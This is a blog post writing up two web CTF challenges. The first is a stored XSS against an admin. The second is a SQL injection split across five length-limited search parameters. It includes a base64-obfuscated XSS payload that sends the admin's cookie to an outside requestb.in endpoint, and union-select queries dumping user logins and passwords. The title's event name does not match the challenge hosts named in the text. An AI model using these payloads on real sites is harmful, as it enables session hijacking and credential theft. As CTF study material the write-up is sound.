 ```yaml
---
layout:     post
title:      "BSides San Francisco CTF"
subtitle:   "Web Writeup"
date:       2017-02-17 05:03:00
author:     "Heeraj"
header-img: "img/post-bg-02.png"
---
```

<script type='text/javascript' src='//eclkmpbn.com/adServe/banners?tid=98477_161886_3&type=footer&size=468x60'></script>
<p>The web challenges were little tricky and it was quite fun.</p>

<h2 class="section-heading">Purple Posse Market</h2>
<p>This is an online market, where it had an <a
href="http://purplepossemarket.quals.nuitduhack.com/contact">contact</a> page. The
page displayed the content "The administrator is currently online". This was the
hint, actually. I got to know this would be an XSS.</p>

<a href="#">
    <img src="{{ site.baseurl }}/img/market.png" alt="Post Sample Image">
</a>

<p>I tried giving sript with redirecting(using document.location) to my website, but
it didn't worked. Then I tried giving img src my website link, I got a get request.</p>

<blockquote>
    &#x3C;img src=&#x22;link&#x22;&#x3E;
</blockquote>

<p>So I thought to give the javascript inside the onerror event handler in img tag.
But Even that didn't worked. So I got to know they would be filtering out
something(May be document ..). And I found that even script was working we could try
using script src.</p>

<blockquote>
&#x3C;script src=&#x22;link&#x22;&#x3E;&#x3C;/script&#x3E;
</blockquote>

<p>I thought to use eval function with base64 content so that even though filter
something they can't get anything from base64. This was my payload for trying
document.location.</p>

<blockquote>
&#x3C;script&#x3E;
var f=document.createElement(&#x27;iframe&#x27;);
f.setAttribute(&#x27;src&#x27;, &#x27;http://requestb.in/1anv7to1&#x27;);
f.setAttribute(&#x27;onload&#x27;, &#x27;eval(atob(&#x22;ZG9jdW1lbnQubG9jYXRpb249J2h0dHA6Ly9yZXF1ZXN0Yi5pbi8xYW52N3RvMSc=&#x22;))&#x27;);
document.body.appendChild(f);
&#x3C;/script&#x3E;
</blockquote>

<p>Next I made a payload for sending the cookie to the server controlled by me.</p>

<blockquote>
&#x3C;script&#x3E;
var f=document.createElement(&#x27;iframe&#x27;);
f.setAttribute(&#x27;src&#x27;, &#x27;http://requestb.in/1anv7to1&#x27;);
f.setAttribute(&#x27;onload&#x27;, &#x27;eval(atob(&#x22;ZG9jdW1lbnQubG9jYXRpb249J2h0dHA6Ly9yZXF1ZXN0Yi5pbi8xYW52N3RvMScrJz9jbWQ9JytidG9hKGRvY3VtZW50LmNvb2tpZSk7&#x22;))&#x27;);
document.body.appendChild(f);
&#x3C;/script&#x3E;
</blockquote>

<p>I already saw there was an link for admin login. So set the cookie and tried
logging in.</p>

<blockquote>
http://purplepossemarket.quals.nuitduhack.com/admin/login/
</blockquote>

<a href="#">
    <img src="{{ site.baseurl }}/img/market1.png" alt="Post Sample Image">
</a>

<p>The IBAN is the flag. IBAN FR14 2004 1010 0505 0001 3M02 606</p>

<h2 class="section-heading">Divide and Rule</h2>

<p>In this website we had a functionality of logging in and functionality to search
in the website. In the search functionality there was an SQL injection, it was pretty
easy to find to out.</p>

<blockquote>
firstname=&lastname=&position=&country=&gender=male'#
</blockquote>

<p>There was SQL injection in 5 parameters which was quite strange. And the further
we can't go with the SQL injection. When I trying to get the database length or
checking order by statement none of them is not working. So I thought they were
filtering particular functions. I spend a lot time over here. Then when once again
read the title of the challenge I got an intuition that as the title name is "divide
and rule" may be for solving the challenge also we have to divide it among the 5
parameters. I found they were not filtering the function but they were actually
checking the length. But the problem now starts, how we can use the 5 argument to
construct SQL query. Thanks to this blog.</p>

<blockquote>
http://www.hexatier.com/shortest-sql-injection-attack/
</blockquote>

<p>Now found the database name and found it was mariadb not mysql.</p>

<blockquote>firstname=' union /*&lastname=*/select
1,/*&position=*/database()/*&country=*/,3,/*&gender=*/4,5,6# </blockquote>

<p>Next thing was problem, we couldn't use information_schema because the length was
more than 80 and we don't have that much length. So I just guessed the tabled as
users and column as login, password. It worked :)</p>

<blockquote>
firstname=' union /*&lastname=*/select
1,2,/*&position=*/password,/*&country=*/4,5,6/*&gender=*/ from users#
</blockquote>

<blockquote>
firstname=' union /*&lastname=*/select
1,2,/*&position=*/login,/*&country=*/4,5,6/*&gender=*/ from users#
</blockquote>

<p>The username was patrick and password #1badgurl(You have to md5 decrpt)</p>

<a href="#">
    <img src="{{ site.baseurl }}/img/divide.png" alt="Post Sample Image">
</a>

<p>Thank you all</p>
